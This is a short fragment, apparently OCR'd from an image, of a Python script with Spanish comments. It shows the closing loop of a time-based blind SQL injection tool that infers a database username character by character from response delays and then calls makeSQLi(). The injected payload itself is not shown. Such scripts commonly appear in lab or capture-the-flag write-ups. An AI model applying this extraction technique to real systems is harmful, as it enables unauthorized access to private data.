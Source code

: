 ```python
            # Calcular la diferencia de tiempo
            diferencia_tiempo = tiempo_fin - tiempo_inicio

            # Si la diferencia de tiempo es mayor o igual al tiempo de espera, el carácter es correcto
            if diferencia_tiempo >= tiempo_espera:
                usuario_extraido += chr(character)
                p2.status(usuario_extraido)
                break

if __name__ == '__main__':
    makeSQLi()

```


